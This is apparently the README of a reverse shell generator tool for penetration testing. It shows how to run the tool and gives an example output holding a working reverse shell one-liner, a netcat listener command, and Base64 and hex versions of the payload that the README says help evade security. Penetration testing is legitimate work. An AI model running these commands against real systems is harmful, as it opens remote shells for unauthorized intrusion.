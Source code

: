 ## Reverse Shell Generaor

This tool help you to generate reverse shells for many purposes, mostly related with penetration testing.

To execute the `Reverse-Shell-Generator.jar` executable, you need to run from the terminal:
```shell
java -jar --enable-preview Reverse-Shell-Generator.jar
```

You can interact with the GUI and you'll get a reverse shell and a listener code to run with your own needs.

The output is as a JSON Object, and give you all the info and code that you maybe need, like IP, Port, if root permissions are required and the differents codes.

The Reverse code is given in plain text, Base 64 encode and Hex encode, because maybe there are security when a payload is sent.

### Example JSON Output:

```json
{
  "parameters": {
    "localIP": "10.10.10.10",
    "localPort": 80,
    "requireRootPermission": true
  },
  "reverse_listener_code": "sudo nc -lvnp 80",
  "reverse_shell_code": "sh -i >& /dev/tcp/10.10.10.10/80 0>&1",
  "reverse_shell_code_b64": "c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTAuMTAvODAgMD4mMQ==",
  "reverse_shell_code_hex": "7368202d69203e26202f6465762f7463702f31302e31302e31302e31302f383020303e2631"
}
```

### GUI:
![Reverse Shell Generator's GUI](images/gui.png)

### Slideshow: [Reverse Shell Generator's Slideshow](https://www.canva.com/design/DAFoMWoBFmE/vLE4ESwD0eWze2WT0GvVtA/edit?utm_content=DAFoMWoBFmE&utm_campaign=designshare&utm_medium=link2&utm_source=sharebutton)
